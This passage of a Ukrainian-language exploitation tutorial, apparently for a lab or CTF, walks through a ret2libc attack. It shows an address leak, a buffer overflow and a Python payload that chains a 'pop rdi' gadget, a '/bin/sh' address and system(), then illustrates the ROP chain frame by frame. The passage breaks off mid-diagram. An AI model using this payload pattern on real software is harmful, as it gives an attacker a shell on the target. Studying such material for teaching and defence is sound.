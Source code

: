**Етап 1: LEAK**
```
Client: "LEAK\n"
Server: "PUTS=0x7ffff7a809c0\n"
```

**Етап 2: BOF**
```
Server: "send payload:\n"
Client: [padding 72] + [ROP chain]
Server: "got 400 bytes\n"
→ Return виконує ROP chain
```

## 🎥 Покадрове виконання ROP chain (ДЕТАЛЬНО!)

Це **НАЙВАЖЛИВІША** частина - покрокове розуміння як працює ROP.

### Наш payload:
```python
payload = b'A'*72 + p64(pop_rdi) + p64(binsh) + p64(system)
#         └──┬──┘   └────┬─────┘   └───┬───┘   └────┬────┘
#          padding   gadget#1      arg        function
```

### Розгляне мо ЩО ВІДБУВАЄТЬСЯ на КОЖНОМУ такті процесора:

```
╔═══════════════════════════════════════════════════════════════╗
║ КАДР 0: Після return з bof() - ПОЧАТОК ROP CHAIN             ║
╠═══════════════════════════════════════════════════════════════╣
║                                                               ║
║ Стек (після BOF):                                             ║
║         ▼ RSP (stack pointer)                                 ║
║ ┌─────────────────────────────┐ 0x7ffe...f80                  ║
║ │ 0x00401234                  │ ← Адреса gadget "pop rdi; ret"║
║ ├─────────────────────────────┤ 0x7ffe...f88                  ║
║ │ 0x7ffff7b98e1a              │ ← Адреса "/bin/sh"            ║
║ ├─────────────────────────────┤ 0x7ffe...f90                  ║
║ │ 0x7ffff7a50d70              │ ← Адреса system()             ║
║ └─────────────────────────────┘                               ║
║                                                               ║
║ Регістри CPU:                                                 ║
║   RIP = 0x00401180 (адреса return в bof)                      ║
║   RSP = 0x7ffe...f80                                          ║
║   RDI = ???????? (випадкове значення)                         ║
║                                                               ║
║ Що виконується:                                               ║
║   return інструкція в bof()                                   ║
╚═══════════════════════════════════════════════════════════════╝
                        ▼
╔═══════════════════════════════════════════════════════════════╗
║ КАДР 1: return виконується - СТРИБОК на gadget               ║
╠═══════════════════════════════════════════════════════════════╣
║                                                               ║
║ Інструкція:                                                   ║
║   ret  ; = pop rip; jmp rip                                   ║
║                                                               ║
║ Крок 1.1: pop rip                                             ║
║   RIP = [RSP]        ; RIP = 0x00401234 (адреса gadget)       ║
║   RSP += 8           ; RSP тепер 0x7ffe...f88                 ║
║                                                               ║
║ Крок 1.2: jmp rip                                             ║
║   Процесор стрибає на 0x00401234                              ║
║                                                               ║
```